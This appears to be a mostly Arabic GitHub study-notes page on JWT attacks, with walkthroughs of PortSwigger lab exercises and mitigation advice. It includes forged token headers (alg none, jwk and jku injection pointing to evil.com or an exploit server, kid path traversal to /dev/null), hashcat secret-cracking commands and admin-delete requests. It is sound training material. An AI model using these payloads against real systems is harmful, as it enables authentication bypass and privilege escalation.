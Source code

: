 # JWT     


- <details>
    <summary>what is JWT?</summary>
  
  # 🔐 JWT Attacks - مقدمة
  
  ## ما هو JWT؟
  
  -   **JWT = JSON Web Token** → معيار لتمثيل البيانات كـ JSON بين
      الأنظمة.
  -   غالبًا يُستخدم في:
      -   **Authentication** (تأكيد هوية المستخدم)
      -   **Session management** (إدارة الجلسات)
      -   **Access control** (تحديد الصلاحيات)
  
  ------------------------------------------------------------------------
  
  ## بنية JWT
  
  يتكون JWT من **3 أجزاء** مفصولة بنقطة `.`:
  
  1.  **Header** → معلومات عن التوكن (الخوارزمية، النوع).
  2.  **Payload** → البيانات (claims) مثل اسم المستخدم والصلاحيات.
  3.  **Signature** → توقيع يعتمد على مفتاح سري للتحقق من عدم التلاعب.
  
  مثال:
  
      xxxxx.yyyyy.zzzzz
  
  ------------------------------------------------------------------------
  
  ## مثال عملي - Payload
  
  ``` json
  {
      "iss": "portswigger",
      "exp": 1648037164,
      "name": "Carlos Montoya",
      "sub": "carlos",
      "role": "blog_author",
      "email": "carlos@carlos-montoya.net",
      "iat": 1516239022
  }
  ```
  
  ### ملاحظات:
  
  -   **Readable**: أي شخص يقدر يفك البيانات لأنها Base64Url (ليست مشفرة).
  -   **Integrity**: التوقيع هو اللي يمنع التلاعب بالبيانات.
  
  ------------------------------------------------------------------------
  
  ## دور الـ Signature
  
  -   التوقيع يتكون من:
  
          HMACSHA256( base64UrlEncode(header) + "." + base64UrlEncode(payload), secret )
  
  -   عند استلام التوكن، السيرفر يتحقق من صحة التوقيع.
  
  -   أي تعديل في **Header** أو **Payload** يجعل التوقيع غير صالح.
  
  ------------------------------------------------------------------------
  
  ## نصائح عملية
  
  -   جرب على [jwt.io](https://jwt.io) → فك التوكن وشوف التغيير في
      التوقيع.
  -   استخدم أدوات مثل **Burp Suite** أو **jwt_tool** لاختبار ثغرات JWT.
  
  ------------------------------------------------------------------------
  
    
  </details>




- <details>
     <summary>JWT attacks</summary>

  
  # JWT Attacks Notes
  
  ## 1. JWT vs JWS vs JWE
  
  -   **JWT (JSON Web Token)**: مجرد Format قياسي للـ Tokens. ممكن يكون
      Signed أو Encrypted.
  -   **JWS (JSON Web Signature)**: JWT معمول له **توقيع** (Signature)
      باستخدام خوارزمية زي HS256 أو RS256 عشان يضمن سلامة البيانات.
  -   **JWE (JSON Web Encryption)**: JWT معمول له **تشفير** كامل عشان يحمي
      المحتوى من إنه يتشاف.
  
  ------------------------------------------------------------------------
  
  ## 2. كيف تظهر ثغرات JWT؟
  
  -   **ضعف في التحقق من التوقيع**:\
      مثال: السيرفر يقبل الـ "alg": "none" → يعني يعتبر الـ Token صالح من
      غير أي توقيع.
  
  -   **ضعف في اختيار الخوارزمية**:\
      مثلًا السيرفر متوقع RS256 (مفتاح عام/خاص) لكن يسمح بالتحويل إلى
      HS256 باستخدام المفتاح العام كـ secret.
  
  -   **تسريب الـ Secret**:\
      لو الـ Secret ضعيف أو متسرب، المهاجم يقدر يولّد توكنات صحيحة.
  
  -   **عدم التحقق من الـ Claims**:
  
      -   تجاهل الـ `exp` → التوكن يفضل صالح بعد انتهاء صلاحيته.
      -   تجاهل الـ `aud` → المهاجم ممكن يستخدم التوكن في تطبيق مختلف.
  
  ------------------------------------------------------------------------
  
  ## 3. Impact (التأثير)
  
  -   انتحال هوية المستخدمين (Authentication Bypass).
  -   سرقة صلاحيات (Privilege Escalation).
  -   وصول إلى بيانات أو عمليات محمية.
  
  ------------------------------------------------------------------------
  
  ## 4. مثال على JWT
  
  Header:
  
  ``` json
  {
    "alg": "HS256",
    "typ": "JWT"
  }
  ```
  
  Payload:
  
  ``` json
  {
    "sub": "1234567890",
    "name": "Alice",
    "admin": true,
    "exp": 1724252214
  }
  ```
  
  Signature:
  
      HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload), secret)
  
  ------------------------------------------------------------------------
  
  ## 5. أمثلة على الهجوم
  
  ### 5.1 Algorithm None Attack
  
  ``` json
  {
    "alg": "none",
    "typ": "JWT"
  }
  ```
  
  → السيرفر يقبل التوكن بدون توقيع.
  
  ### 5.2 RS256 to HS256 Attack
  
  -   السيرفر متوقع RS256 (مفتاح عام/خاص).\
  -   المهاجم يغيرها إلى HS256 ويستخدم المفتاح **العام** كـ secret لتوليد
      توقيع صحيح.
  
  ------------------------------------------------------------------------
  
  # ✅ الخلاصة
  
  -   دايمًا تحقق من صحة الخوارزمية.
  -   لا تستخدم `none` algorithm.
  -   استخدم Secrets قوية أو مفاتيح صحيحة.
  -   راقب وصحّح Claims زي `exp`, `aud`, `iss`.
  
  

  </details>




- <details>
    <summary>JWT Attacks - Brute-forcing Secret Keys</summary>
    
    # JWT Attacks - Brute-forcing Secret Keys
    
    ## الفكرة الأساسية
    - بعض خوارزميات التوقيع مثل **HS256 (HMAC + SHA-256)** تعتمد على **secret key** (سلسلة نصية عشوائية).
    - لو الـ secret ضعيف أو قابل للتخمين (زي كلمة مرور ضعيفة)، المهاجم يقدر يعمل:
      - إنشاء JWT بأي header و payload.
      - إعادة التوقيع باستخدام الـ secret المخمَّن.
      - الحصول على توقيع صحيح وبالتالي تزوير الـ JWT.
    
    ---
    
    ## أخطاء شائعة من المطورين
    - نسيان تغيير الـ default/placeholder secret.
    - نسخ كود من الإنترنت ونسيان تعديل الـ hardcoded secret.
    - استخدام أسرار ضعيفة أو مشهورة.
    
    ---
    
    ## أداة Brute-force: Hashcat
    - **Hashcat** بيستخدم لمهاجمة مفاتيح JWT بسرعة.
    - موجود مسبقًا في **Kali Linux**.
    - لازم يكون عندك:
      - JWT صالح (موقَّع من السيرفر).
      - wordlist فيها أسرار معروفة.
    
    ---
    
    ## الأمر المستخدم
    ```bash
    hashcat -a 0 -m 16500 <jwt> <wordlist>
    ```

    https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list
    
    - ``-a 0`` → هجوم dictionary.
    
    - ``-m 16500`` → مود JWT HS256.
    
    - ``<jwt>`` → التوكن الهدف.
    
    - ``<wordlist>`` → قائمة .
    
    
    #### النتيجة
    
    > Hashcat بيجرب كل secret من الـ wordlist.
    
    لو لقى مطابقة، هيطبع بالشكل:
    
    ```ruby
    <jwt>:<identified-secret>
    ```
    
    لو شغلت الأمر أكتر من مرة، لازم تضيف:
    
    ```
    --show
    ```
    
    
    ```
    hashcat -a 0 -m 16500 <jwt> /usr/share/seclists/Passwords/JWT/jwt.secrets.list
    ```
    ---
    
    <details>
    
    ```
    python3 jwt_tool.py <jwt> -S hs256 -k <secret>
    ```
    
    ```python
    import jwt
    
    payload = {"username": "attacker", "role": "admin"}
    secret = "the_secret_you_found"
    
    token = jwt.encode(payload, secret, algorithm="HS256")
    print(token)
    ```
    
    
    
        
    </details>


  </details>






- <details>
    <summary>JWT header parameter injections</summary>

    # JWT Header Injection - JWK Parameter Exploit
    
    ## 📌 الفكرة العامة
    الـ **JWT** بيتكون من:
    1. **Header** → بيحتوي على معلومات زى `alg` (الخوارزمية) و ممكن كمان يحتوي على حاجات إضافية زى `kid`, `jwk`, `jku`.
    2. **Payload** → البيانات (claims).
    3. **Signature** → توقيع بيتعمل باستخدام secret أو مفتاح خاص (private key).
    
    السيرفر لما يستقبل الـ JWT بيستخدم الـ **Header** عشان يعرف:
    - أى خوارزمية تستخدم للتأكد من التوقيع (`HS256` / `RS256`).
    - أى مفتاح يجيب ويستخدم (من الـ `kid` أو `jwk` أو `jku`).
    
    ---
    
    ## 📌 التركيز هنا: `jwk` Injection
    - `jwk` = **JSON Web Key** → عبارة عن **مفتاح عام (Public Key)** مكتوب فى شكل JSON.
    - المفروض السيرفر عنده **قائمة محدودة** من المفاتيح اللى يثق فيها.
    - لكن لو السيرفر **مُسيء التهيئة (Misconfigured)**، ممكن يقبل أى مفتاح عام **موجود داخل التوكن نفسه** 🤦.
    
    ---
    
    ## 📌 إزاى نستغل ده؟
    1. نولد زوج مفاتيح (RSA Public/Private).
       - عندنا المفتاح **الخاص** (Private) → نوقع بيه التوكن.
       - عندنا المفتاح **العام** (Public) → نحطه جوه الهيدر فى باراميتر `jwk`.
    
    2. نعدل الـ Payload (مثلاً نغير `role` من `user` إلى `admin`).
    
    3. نوقع التوكن باستخدام **المفتاح الخاص بتاعنا**.
    
    4. نحط المفتاح العام جوه الهيدر:
       ```json
       {
         "alg": "RS256",
         "typ": "JWT",
         "jwk": {
           "kty": "RSA",
           "e": "AQAB",
           "n": "....",  
           "kid": "myCustomKey"
         }
       }
       ```
    
    5. لو السيرفر بيقبل ده → هيستخدم المفتاح العام اللى إحنا حاطينه ويتأكد من التوقيع، وده هيكون صحيح لأننا وقعنا بالمفتاح الخاص بتاعنا.  
       🔥 وده بيدينا **تحكم كامل فى التوكن**.
    
    ---
    
    ## 📌 الخطوات العملية (مثال باستخدام Burp + JWT Editor Extension)
    1. فى Burp → افتح تبويب **JWT Editor Keys**.
    2. اعمل **Generate RSA Key**.
    3. ابعت الريكوست اللى فيه JWT لـ **Repeater**.
    4. روح على تبويب الـ **JSON Web Token**.
    5. عدل الـ Payload (مثلاً غير `user":"test"` لـ `user":"admin"`).
    6. اضغط **Attack → Embedded JWK**.
    7. اختار المفتاح اللى انت مولده.
    8. ابعت الريكوست الجديد للسيرفر.
       - لو Misconfigured → هيديك access كأنك Admin.
    
    ---
    
    ## 📌 الخلاصة
    - **الـ jwk Injection** = بنخدع السيرفر يخلى باله من المفتاح العام بتاعنا.
    - إحنا نوقع بالتوكن بمفتاحنا الخاص.
    - السيرفر يتأكد باستخدام المفتاح اللى إحنا حطينه → فالتحقق يعدى.
    - النتيجة: نتحكم فى التوكن ونعدل أى Claims (زي role → admin).
    
    
    
    ---
    
    




  </details>
 







- <details>
      <summary>JWT header parameter injections lead to SSRF</summary>

    # Injecting self-signed JWTs via the `jku` parameter
    
    ## الفكرة الأساسية
    الـ JWT (JSON Web Token) أحيانًا بيحتوي في الـ header على باراميتر اسمه `jku`.  
    الـ `jku` ده بيشير إلى **رابط (URL)** بيحتوي على ملف JSON فيه **JWK Set** (مجموعة مفاتيح عامة) واللي السيرفر بيستخدمها للتحقق من التوقيع.
    
    بدل ما المفتاح العام يكون محطوط مباشرة في الـ token (زي ما بيحصل مع `jwk`)، السيرفر بيروح يجيب المفتاح من الرابط اللي في `jku`.
    
    ---
    
    ## JWK Set
    ملف JWK Set هو JSON بيحتوي على Array من المفاتيح العامة (JWKs).  
    مثال:
    
    ```json
    {
        "keys": [
            {
                "kty": "RSA",
                "e": "AQAB",
                "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
                "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
            },
            {
                "kty": "RSA",
                "e": "AQAB",
                "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
                "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
            }
        ]
    }
    ```
    
    ممكن تلاقي السيرفر بيعرض الملف ده في لينك ثابت زي:
    ```
    /.well-known/jwks.json
    ```
    
    ---
    
    ## إزاي ممكن نستغل ده؟
    لو السيرفر بيثق في أي لينك بيتحط في `jku` (من غير فلترة كويسة):
    
    1. نولّد زوج مفاتيح RSA خاص بينا (Private + Public).
    2. نجهّز JWK Set يضم المفتاح **العام** بتاعنا ونرفعه على سيرفر نتحكم فيه (مثلاً `https://evil.com/jwks.json`).
    3. نولّد JWT جديد ونحط في الـ header:
       ```json
       {
         "alg": "RS256",
         "jku": "https://evil.com/jwks.json",
         "kid": "المفتاح_اللي_جهزناه"
       }
       ```
    4. نوقّع التوكن بالمفتاح **الخاص** اللي عندنا.
    5. السيرفر هيروح يجيب المفتاح العام من لينك `jku` اللي إحنا حاطينه (بتاعنا) وبالتالي يصدّق التوكن.
    
    بكده نقدر نزور أي claims جوة التوكن (مثلاً ندي نفسنا role = admin).
    
    ---
    
    ## طرق الحماية
    - السماح بتحميل المفاتيح من دومينات موثوقة فقط (whitelist).
    - تجاهل أي `jku` جاي من المستخدم.
    - التحقق إن الدومين مش متلاعب فيه (ضد SSRF/URL parsing tricks).
    - استخدام certificate pinning بدل ما يعتمد على جلب مفاتيح ديناميكياً.
    
    ---
    
    ## ملخص
    - `jku` = URL بيحتوي على مفاتيح عامة.
    - لو السيرفر مش بيفلتر اللينك → المهاجم ممكن يرفع JWK Set خاص بيه.
    - ده يسمح له يوقّع JWT بالتوكن بتاعه → السيرفر يصدّق إنه valid.
    - النتيجة = **تزوير JWT + تصعيد صلاحيات**.
    
        
  </details>







- <details>
     <summary>JWT kid path traversal</summary>

    # JWT Attack using `kid` Parameter
    
    ## 🔹 الفكرة الأساسية
    - الـ JWT بيكون له **header** (فيه معلومات عن الخوارزمية والـ key).
    - في بعض الأحيان، الـ header يحتوي على **`kid` (Key ID)** → السيرفر بيستخدم القيمة دي عشان يعرف أي مفتاح (key) يستعمل في التوقيع.
    - الطبيعي: السيرفر يجيب المفتاح من database أو JWK Set بناءً على قيمة الـ `kid`.
    
    ---
    
    ## 🔹 نقطة الضعف
    - **الـ `kid` مش محدد له structure** → مجرد string عشوائي بيحدده المبرمج.
    - لو المبرمج عمل lookup للـ key بشكل unsafe (مثلاً يروح يفتح ملف بنفس اسم الـ `kid`)، ممكن المهاجم يستغل ده.
    
    ### مثال
    ```json
    {
      "kid": "../../path/to/file",
      "typ": "JWT",
      "alg": "HS256"
    }
    ```
    - هنا المهاجم بيعمل **Directory Traversal** بالـ `kid`.
    - السيرفر يروح يقرأ أي ملف من الـ filesystem ويستخدمه كـ secret key.
    
    ---
    
    ## 🔹 الهجوم
    لو السيرفر بيقبل **خوارزمية symmetric زي HS256**:
    1. تختار ملف معروف موجود في السيرفر (مثلاً `/dev/null` على Linux).
    2. `/dev/null` → بيكون دايمًا **فاضي** → أي قراءة منه ترجع **string فاضية**.
    3. تعمل sign للـ JWT باستخدام **secret = "" (empty string)**.
    4. السيرفر يقرأ `/dev/null` → يرجع برضه empty string → يظن إن التوقيع صحيح ✅.
    
    ---
    
    ## 🔹 الصعوبة العملية
    - مشكلة: Burp JWT Editor ما بيسمحش تعمل signing بــ empty string.
    - الحل: **استغلال bug** → وقته ممكن تبعت Base64 encoded null byte بدل ما تبعت empty string. ده بيخدع الـ extension ويخلي التوقيع valid.
    
    ---
    
    ## 🔹 الخلاصة
    - أي مكان السيرفر **بيثق في `kid`** من غير validation → ممكن يتحول لسلاح ضد السيرفر.
    - مهاجم يوجّه السيرفر يقرأ ملف ثابت (زي `/dev/null`) أو ملف فيه key معروف → ويوقّع بنفسه JWTs صحيحة.
    - النتيجة: **تخطّي المصادقة (Authentication Bypass)** أو **تزوير الصلاحيات (Privilege Escalation)**.
    
    

  </details>
















































----



<details>
  <summary>Lab: JWT authentication bypass via unverified signature</summary>


1. login as **`wiener : peter`**

```http
GET /my-account?id=wiener HTTP/2

Host: 0a560020036c2252813698d200c400be.web-security-academy.net

Cookie: session=eyJraWQiOiI4MWIxYTBiYy01NWNlLTRjOTAtYTE1Yi02ZTY0MzM1MTljNTAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyMDU2OCwic3ViIjoid2llbmVyIn0.cLk9QduwU-eyT0xFZwd-BmYuNWJbfadMd_vHQ6IROuHznq-A5R4OvFo7VF_AfDKhOvKCLQxRtEYOdJ-1rGZGkMhYQk36FpGH5m2FTAzqZWT5h2fKiGUhYM8s5p3Pms6R6KNf1vFuKT4yJEs0e-EtpseOIMSQ6wFTpItZz6Pv21abFIETe-pq-2fcgFMfyQs5fzwLbc30IwBhOC-0X1_lJuQiRCXM7Yh3_WbTF5Cw68R5UTaKIIl0SbyKd9rrUCs4dHVZJtQhDLVHsiqUHcJZyewV8PIe8TZHH3Zc0jJYdOEqJck_8EP2Jd8Mrsg1dHMTsQHjgVPODAqz4oc5opnYlw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a560020036c2252813698d200c400be.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



```

### **`JWT`**

```json
eyJraWQiOiI4MWIxYTBiYy01NWNlLTRjOTAtYTE1Yi02ZTY0MzM1MTljNTAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyMDU2OCwic3ViIjoid2llbmVyIn0.cLk9QduwU-eyT0xFZwd-BmYuNWJbfadMd_vHQ6IROuHznq-A5R4OvFo7VF_AfDKhOvKCLQxRtEYOdJ-1rGZGkMhYQk36FpGH5m2FTAzqZWT5h2fKiGUhYM8s5p3Pms6R6KNf1vFuKT4yJEs0e-EtpseOIMSQ6wFTpItZz6Pv21abFIETe-pq-2fcgFMfyQs5fzwLbc30IwBhOC-0X1_lJuQiRCXM7Yh3_WbTF5Cw68R5UTaKIIl0SbyKd9rrUCs4dHVZJtQhDLVHsiqUHcJZyewV8PIe8TZHH3Zc0jJYdOEqJck_8EP2Jd8Mrsg1dHMTsQHjgVPODAqz4oc5opnYlw
```

- <details>
      <summary>jwt.io</summary>
 
     <img width="1183" height="326" alt="image" src="https://github.com/user-attachments/assets/48bc8145-7604-4124-987c-5add5170affa" />

  
   </details>


- <details>
      <summary>JWT editor burp</summary>

    <img width="732" height="713" alt="image" src="https://github.com/user-attachments/assets/9e106d7c-2521-4e54-98c5-3a348e5d417e" />

  
   </details>




<img width="741" height="125" alt="image" src="https://github.com/user-attachments/assets/554d6f72-cedc-4ccd-972f-4f2618b5b91c" />

<img width="1526" height="738" alt="image" src="https://github.com/user-attachments/assets/045c7041-0caf-4d5f-8838-4a11d70e3479" />


> change path to **`/admin`**

<img width="1498" height="657" alt="image" src="https://github.com/user-attachments/assets/24d92751-c0cb-4d14-ba46-0e5338441d7d" />

<img width="1356" height="557" alt="image" src="https://github.com/user-attachments/assets/0c504fb1-c66e-4c15-867b-9cf29892604e" />

<img width="1430" height="491" alt="image" src="https://github.com/user-attachments/assets/1e4b1cdc-88ad-4dd8-9c95-0d9023896589" />




  
</details>



<details>
    <summary>Lab: JWT authentication bypass via flawed signature verification</summary>

1. login as **`wiener : peter`**

<img width="747" height="613" alt="image" src="https://github.com/user-attachments/assets/49400493-6f82-4b6d-84ae-7872076d755e" />

> change **`algo`** to `none` and remove the signeture and change **``carlos``** to **``administrator``**

<img width="1505" height="731" alt="image" src="https://github.com/user-attachments/assets/6a59e0d7-bc8b-4d6c-bb91-b314fa9d88d4" />


> now change **`path`** to :

```http
GET /admin/delete?username=carlos HTTP/2
```

<img width="1505" height="734" alt="image" src="https://github.com/user-attachments/assets/4de7a1c3-ea34-4b8a-9a49-40a2b1d2d401" />

    
</details>







<details>
    <summary>Lab: JWT authentication bypass via weak signing key</summary>


```
eyJraWQiOiIwNjhlY2JkYy00YzQ2LTRlOWItODc5Zi02Y2QyZWVhNjNiZDAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyNDM0OCwic3ViIjoid2llbmVyIn0.c0YlOr9HLbE0Xuso36umnu2wiOsGd2BzArlCXI3_60M
```

<img width="742" height="614" alt="image" src="https://github.com/user-attachments/assets/45651d25-d4f7-434e-99d5-9667d0c0bcdb" />


```
hashcat -a 0 -m 16500 eyJraWQiOiIwNjhlY2JkYy00YzQ2LTRlOWItODc5Zi02Y2QyZWVhNjNiZDAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyNDM0OCwic3ViIjoid2llbmVyIn0.c0YlOr9HLbE0Xuso36umnu2wiOsGd2BzArlCXI3_60M /usr/share/seclists/Passwords/scraped-JWT-secrets.txt
```

<img width="1374" height="273" alt="image" src="https://github.com/user-attachments/assets/f9e1cded-604e-47a2-834f-157ba0aba4c7" />

```
secret1
```

<img width="1546" height="745" alt="image" src="https://github.com/user-attachments/assets/09176375-61b2-4e35-9181-8eab68b53d87" />

> now change **`path`** to :

```http
GET /admin/delete?username=carlos HTTP/2
```

<img width="1492" height="649" alt="image" src="https://github.com/user-attachments/assets/87127834-aeb3-4d22-b683-7c305bc7849e" />




    
</details>







<details>
    <summary>Lab: JWT authentication bypass via jwk header injection</summary>


```json
eyJraWQiOiJiZjFhOTg1Zi00NDgwLTQ1MmQtODQzZS0wMjIyMGUzZTg2YmYiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyODc5MSwic3ViIjoid2llbmVyIn0.f2YN61RhTmuZSUdncWJi6PKVky_FYVsWfPW1ue50xJBGExuDmIpl7Ufhy8DlgGN_q2XWI0x5JG85bhoUcLc-8wed0RSPuu0P1C0g-f9naycBtAUDb_wNFCR7WdDSn-L8JJd8UWJS4-XAozvW9EFMk4q5D0YlfsCWPz2oe_JLKlvUug12MN3vRYp_wVgpzumwfAhrMowNNFpBOIjaBxc_hQXMmJ65qnqQD9h2lViue1PAPgXoHmLQUkl9qrvrEMTATCdlgQDFlmPAbgJxn4sVIDtTsi6cxLjaNnpip6fldEyexxSaE3U9x7rnrgTQf0k5vOrpxwtcgp_u1a6dmGPINg
```


<img width="737" height="568" alt="image" src="https://github.com/user-attachments/assets/2e653954-72a1-45bc-9d5f-e9ca6f2923c1" />


---

> genrate ``RSA key``

<img width="798" height="656" alt="image" src="https://github.com/user-attachments/assets/5150b333-3fb7-4639-ab77-3c8bbb26b8fe" />


<img width="742" height="675" alt="image" src="https://github.com/user-attachments/assets/e3a19886-667c-4798-a3dd-2721db6b47fa" />


---

> send the request

<img width="1544" height="635" alt="image" src="https://github.com/user-attachments/assets/4756464e-c1fc-4120-9c2d-b098c596c390" />


----

> now change the path 

```
/admin/delete?username=carlos
```

<img width="1498" height="671" alt="image" src="https://github.com/user-attachments/assets/e2a03383-f021-41df-81e0-ac7105e16b12" />



<details>

## 1. إيه المفروض يحصل (السليم)؟

```


لما السيرفر يستقبل JWT موقّع، لازم يتأكد من التوقيع باستخدام المفتاح الصحيح فقط (secret أو public key اللي هو مبرمج عليه).

المفروض السيرفر مايثقش في أي مفتاح جاي من الكلاينت.
```

---

## 2. الغلط في الـ jwk injection

```


في بعض السيرفرات (لو misconfigured) بيكون الكود مكتوب بحيث يقرأ jwk من الـ JWT نفسه.

يعني السيرفر بدل ما يكون عنده public key ثابت يتحقق بيه، بيقول:
"تمام، الكلاينت بعتلي المفتاح بتاعه في الـ jwk.. هستخدمه للتحقق من التوقيع".

هنا الغلط: السيرفر بيثق في أي RSA key يبعته المهاجم.
```



<img width="1536" height="1024" alt=" Image Aug 29, 2025, 03_05_28 AM" src="https://github.com/user-attachments/assets/069ba80b-1485-41da-a7d8-da7467611bca" />


    
</details>

    
    
</details>





<details>
    <summary>Lab: JWT authentication bypass via jku header injection</summary>

```
eyJraWQiOiJjZmRmYTMyMS00YWZiLTRiZDUtODVlMS1lOTc1ODE3OGM3MTkiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjUxMDAzOSwic3ViIjoid2llbmVyIn0.s_HN8Ym6FyTityp_B97oktH_TDGl0asia1ZBLgOue250fh60YvGcsof55XD7UXBsrodedGLLL_ou60RKuneFFCHFH6LmoGaoDec-866Bgfn7FJNcEuv7gK6Ao6UD0KI-MomyiLC9aA2UJ4N1quA2H_FQjSYj3atSUgETRuQW6VROKuFEEfguFpe4Yn9SOxQbH4gBdHZi_u4oAl1NOwmI3x5RUTw90b9W6FvA3DJUeGUdIsE2RSejEqcgIhP3bjkP4mlh9_Q0m5J7DLpYGXB5_MAjcy064xGNTBMji3yHaIup0tBhcvmNCsZ7M8h9wysUaraRdWCq4LIVEv6wbPkbFA
```

<img width="748" height="718" alt="image" src="https://github.com/user-attachments/assets/3602e8cc-d8b6-4806-96ef-8a1cebb3ef8c" />

----

> ## first we need to create new **`RSA key`** :

<img width="1022" height="566" alt="image" src="https://github.com/user-attachments/assets/4ae83bd0-a868-45e9-9483-ae9c0bf6f933" />

> ## now do **`copy public key as jwk`** and put it on exploit server and click ``store``

<img width="629" height="258" alt="image" src="https://github.com/user-attachments/assets/2d7ac00d-d32b-41f5-ba7f-34877dd31b88" />

<img width="1335" height="375" alt="image" src="https://github.com/user-attachments/assets/fdfb45fa-4583-4b3a-b8b2-b58cd1edeaff" />

```json
{
    "keys": [
        {
    "kty": "RSA",
    "e": "AQAB",
    "kid": "4a39d446-dd24-4c7e-86b8-183a1ac079a0",
    "n": "tb58PeMrMiHDWHPlUgrCVJjiq0oR44e8DN5K0lyJR0pA0qpctF_3_vubDlUL7pkrviNdEeJuVRrvB5nJmGi_q78ahHm-4Ik6eH9r7KFhM22ki4VZFH-kvWMpCBAv_4P8-4Z21ZPhUjxFHAA_PxF0_WawIxgXpNcxm9n_bry2f2zjQg4NX8cA_-WxTR71n9B8BNWbSkcVk6jcmjhj9Q-N1dYbBi1kLjtWH1qqf08icrD5CQ1hV0gGc5x0gOk_6wNAT5pf1u6krvVnkzSHSkwyUAhV9fqjk7-KEfPJ2JCpIudj5WuJh-52m-Sf5fUc3owfpV_w8K-FBJmTDs_K2wg5OQ"
}
    ]
}
```

> ## now take the `"kid"` and `exploit server url`

```
4a39d446-dd24-4c7e-86b8-183a1ac079a0
```

```
https://exploit-0a1d00cb047f301a8160c9ac01d800dd.exploit-server.net/exploit
```

----

> ## change the header in burp suite:
> 1. put the new **`"kid"`**
> 2. set a new key **`"jku"`** with exploite server url
> 3. change user to **`administrator`**

<img width="809" height="695" alt="image" src="https://github.com/user-attachments/assets/10e4f9a0-7568-48eb-8373-3c23fa5170a8" />

```json
{
    "kid": "4a39d446-dd24-4c7e-86b8-183a1ac079a0",
    "alg": "RS256",
    "jku": "https://exploit-0a1d00cb047f301a8160c9ac01d800dd.exploit-server.net/exploit"
}
```

```json
{
    "iss": "portswigger",
    "exp": 1756510039,
    "sub": "administrator"
}
```


> click **`sign`** and send the request



<img width="1594" height="785" alt="image" src="https://github.com/user-attachments/assets/22276224-fe3a-4826-a350-da9a9c154296" />

> change path to **`GET /admin/delete?username=carlos HTTP/2`**

<img width="1521" height="758" alt="image" src="https://github.com/user-attachments/assets/73a69ba9-8e3e-4b91-8916-354155a84fbe" />

    
</details>











<details>
    <summary>Lab: JWT authentication bypass via kid header path traversal</summary>


```json
eyJraWQiOiJlZDZjYmIwYy03MDdhLTQ3MGYtYmYzOS01NjQwOTU3YTYwMGMiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjUxMzY0Mywic3ViIjoid2llbmVyIn0.BwlNCmoE1ZZZu1eXcR_dMRjnfI-NFAvn_-RuVvEzfA0
```

<img width="745" height="680" alt="image" src="https://github.com/user-attachments/assets/147e9e71-80ea-4963-a97c-bb7aa416ecef" />


> ## now try to change **`"kid"`** to **``../../../../../dev/null``**

```json
{
    "kid": "../../../../../dev/null",
    "alg": "HS256"
}
```

> ## so the server will check if the **`k`** equel to the value in **`../../../../../dev/null`** so we need to put the **`k`** empty
> but burp refuse so we can put **``AA==``** instead this is null in base64

<img width="1073" height="591" alt="image" src="https://github.com/user-attachments/assets/4abb0c4a-435b-474f-8486-2d41e917a1af" />

> ## click **`sign`**
> - change user to **`administrator`**

<img width="737" height="568" alt="image" src="https://github.com/user-attachments/assets/4b61e028-0369-45d5-a187-b7035aad516c" />

> ## send the request



<img width="1530" height="759" alt="image" src="https://github.com/user-attachments/assets/652efa50-1b1c-4fe7-b134-a180a6ff4f6b" />

> change path to **`GET /admin/delete?username=carlos HTTP/2`**

<img width="1502" height="728" alt="image" src="https://github.com/user-attachments/assets/315c0911-891d-4e9b-82c1-28d8d0719f6d" />

    
</details>
















